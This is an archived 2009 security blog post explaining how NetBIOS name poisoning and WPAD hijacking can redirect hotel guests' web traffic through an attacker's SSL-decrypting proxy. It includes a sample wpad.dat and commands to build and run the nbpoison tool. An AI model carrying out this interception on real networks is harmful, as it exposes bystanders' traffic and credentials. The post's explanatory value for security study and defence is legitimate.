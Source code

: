```yaml
---
id: 488
title: 'Pwning hotel guests'
date: '2009-11-23T12:27:02-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=488'
permalink: '/?p=488'
---
```


Greetings everybody!

I spent a good part of the past month traveling, which meant staying in several hotels, both planned and unplanned. There's nothing like having a canceled flight and spending a boring night in San Francisco! But hey, why be bored when you have a packet sniffer installed? :)

Disclaimer: running a sniffer on somebody else's network may or may not be illegal; the only advice I can give is the guy down at Kinko's said it's okay.

Now, before I get to the fun, we need to step back and talk about NetBIOS name resolution a bit. My [very first post](http://www.skullsecurity.org/blog/?p=6) on this blog was actually about NetBIOS and my NBTool suite, and you may want to review it because this'll be a quick crash course.

## NetBIOS review

When Windows attempts to resolve domain names, it uses to DNS first. Assuming nobody has [hijacked their DHCP request](http://www.windowsecurity.com/articles/DHCP-Security-Part1.html) and fed them bad DNS servers, and nobody is performing [ARP spoofing](http://www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=12868&mode=thread&order=0&thold=0) to redirect traffic, it'll go out to their DNS server. The DNS server, assuming it hasn't been [poisoned](http://en.wikipedia.org/wiki/DNS_cache_poisoning) or [hijacked](http://en.wikipedia.org/wiki/DNS_hijacking), will respond with the proper IP address. (It's a miracle anybody gets work done on the Internet, isn't it?)

If DNS fails, Windows tries [NetBIOS name resolution](http://en.wikipedia.org/wiki/NetBIOS#Name_service). It's this resolution that lets you type "ping FREDSBOX" and, if FREDSBOX is alive, it'll resolve. While useful on a trusted network (haha, trusted network...), this resolution really just amounts to a broadcast saying "Who has XXX?" The thoughtful servers on the network, unless they're legitimately named "XXX", look down and shuffle their feet, and the server named "XXX" will say "hey, that's me!" But what's stopping an attacker from also claiming to be "XXX"?

Nothing.

That's why, in a fateful moment of usefulness, I wrote [NBTool](http://www.skullsecurity.org/wiki/index.php/Nbtool).

## NBTool?

One of the tools included with NBTool, called nbpoison, will intercept requests and respond with a requested address. With the -c (or conflict) flag, it'll even inform other servers that they don't own a name. That might cause services to break, though, and some versions of Windows will pop up a warning when a conflict occurs. But such is life.

When you supply -c, you end up with traffic that looks like:

- FREDSBOX: (having just booted) Hey guys, just FYI, I'm FREDSBOX
- Attacker: No, sir, you are not; I am FREDSBOX
- FREDSBOX: k, sorry (from then on, FREDSBOX won't respond to his own name)

So anyway, I wrote that awhile ago, and had some fun showing off to our co-op students ("look! going to 'www.yahoo.colm' takes you to Google! Isn't that funny?" (their answer was inevitably "no")), but then I shelved it to work on [things people actually care about](http://nmap.org). (Note that 'www.yahoo.com' is intentionally misspelled -- the reason is that, if it's spelled correctly, the NetBIOS request would never be made).

What I hadn't realized was, there are more fun things you can do! Let's have a look.

## Where'd that WPAD server go...?

One of the first things I noticed after running a packet capture in a hotel was this:  
![](/blogdata/WPAD.png)

I saw some workstations desperately trying to find a server called WPAD, and I couldn't get over how familiar WPAD looked. Word Press \[something\]? \[something\] Active Directory? Is it a blog thing? Bah!

So, I looked it up on the [Old Farmers Wikipedia](http://futurama.wikia.com/wiki/Old_Farmers_Wikipedia), and found it: Web Proxy Auto Discovery. Of course! This must be somebody's browser trying to find a proxy server. Wait... somebody's browser is broadcasting a request for a proxy server? And it's willing to trust people to tell it which proxy to use? Awesome!

Now, this is where I stopped. Despite what the guy at Kinko's said, I'm not comfortable with actually redirecting people's traffic. That wouldn't be nice at all, and I'm reasonably sure it steps over that legal line. But, here's what one *could* do...

### Step 1: Set up a logging proxy

[Burp Suite](http://portswigger.net/suite/) and [Paros](http://www.parosproxy.org/), among others, would work great. It's especially fun because they'll decrypt SSL for you, and even let you modify requests/responses!

### Step 2: Set up a Web server

Set up a Web server (or a [netcat](http://netcat.sourceforge.net/) listener) that'll serve up a /wpad.dat file pointing to your logging proxy. I'm no expert on writing WPAD files, but I [found this one online](http://www.craigjconsulting.com/proxypac.html):

```
function FindProxyForURL(url, host)
{
  return "PROXY 192.168.100.123:8080";
}
```

### Step 3: Start poisoning requests

```
$ wget http://www.skullsecurity.org/downloads/nbtool-0.02.tar.gz
$ tar -xvvzf nbtool-0.02.tar.gz
$ cd nbtool-0.02
$ make
$ sudo ./nbpoison -s 192.168.100.123
```

(nbpoison has to run as root because it listens on UDP port 137)

As of the current version, there's no way to actually pick and choose domains; it's all or nothing. So, every NetBIOS request will evoke a response. That can be fun, of course, but at some point I'll add a domain name argument.

### Step 4: Watch the traffic

If all goes according to plan, anybody set to use auto-configured proxies will start using your proxy, and you can see what they're up to. And great times will be had by all!

## Other attacks

Hijacking the WPAD file is cool, but what else can you do?

Well, it turns out that any internal server that the computers are configured to use will send out NetBIOS requests, because, for obvious reasons, their internal servers aren't listed in DNS. That can include, but isn't limited to:

- Exchange (or other email) server
- File shares
- Instant messenger servers
- Proxy server
- Browser's homepage
- Time reporting
- Issue tracking
- Internal news feeds
- Development server
- etc.

If you start hijacking names and hosting Web servers, SMB servers, etc, you may start seeing interesting requests. You'll want to run Wireshark, as well, to see what else is trying to connect to you. It'll be a party!

## So, what's the big deal?

Yes, this is the key. What IS the big deal? So you can redirect somebody who's on the same subnet as you. Why not use ARP spoofing? DHCP poisoning? Other subnet-based attacks?

And that'd be a great question. This is yet another member of a long line of evil things you can do on a subnet. Not to mention scores of attacks against unsecured wireless, which hotels seem to like!

The biggest advantage I see is that this attack is fairly quiet, keeping a very low profile. Somebody who isn't performing NetBIOS resolutions won't even know that somebody's out there, and somebody who is will probably get expected error pages when they DO attempt a request. Additionally, when it comes right down to it, there's a much smaller chance of screwing things up with NetBIOS poisoning than other LAN attacks.

Thanks for reading!
